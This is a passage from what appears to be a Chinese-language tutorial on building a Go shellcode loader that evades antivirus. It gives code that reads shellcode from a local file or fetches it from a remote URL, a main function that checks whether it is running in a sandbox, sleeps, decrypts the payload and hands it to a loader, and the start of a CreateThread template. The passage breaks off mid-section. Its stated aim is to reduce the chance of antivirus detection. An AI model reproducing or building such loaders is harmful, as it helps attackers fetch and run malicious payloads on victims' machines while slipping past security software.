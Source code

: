 Golang 读取文件很简单只需要导入 `"io/ioutil"`，在使用 ReadFile 来读取，就可以实现 Shellcode 不在程序中，而在外部，这样将大大降低被杀的可能性。

```plain
content, err := ioutil.ReadFile("{{LOCAL_FILENAME}}")
    if err != nil {
        return
    }
```

## Golang - 分离免杀 - 远程分离

在 Golang 中，还可以使用 `"github.com/valyala/fasthttp"`库，来请求远程的 Shellcode

封装一个函数，方便复用，代码如下

```plain
func fetchShellcode() []byte {

    url := "{{REMOTE_URL}}"

    _, body, _ := fasthttp.Get(nil, url)

    return body
}
```

在 main 函数中，使用一个变量来接受返回的数据，再传给 Ldr1 函数

```plain
func main() {

    args := os.Args[0]
    if (args[10] == 92 && (args[0] == 99 || args[0] == 67)) {
        os.Exit(0)
    }

    Sleeeep()

    ciphertext := fetchShellcode()

    byteData := DecryptData(string(ciphertext))

    Ldr1(byteData)

}
```

## 将 CreateThread 调用方式添加到模板中

复制一份 go\_VirtualAlloc 重命名为 go\_CreateThread，并将目录下的 go\_VirtualAlloc.go 也重命名为 go\_CreateThread.go，命名完成目录结构如下
